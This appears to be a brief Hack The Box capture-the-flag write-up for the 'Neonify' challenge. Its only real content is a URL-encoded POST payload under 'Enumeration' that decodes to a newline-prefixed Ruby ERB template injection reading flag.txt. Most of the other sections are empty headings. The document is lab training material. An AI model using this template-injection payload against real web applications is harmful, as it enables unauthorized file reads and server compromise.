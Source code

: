 # Neonify - Hack The Box

## Table of Contents
- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Introduction
neonfy - SSTI vuln

## Enumeration
```
POST / HTTP/1.1
......


neon=a%0a%0d%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%66%6c%61%67%2e%74%78%74%27%29%2e%72%65%61%64%20%25%3e%0a
```
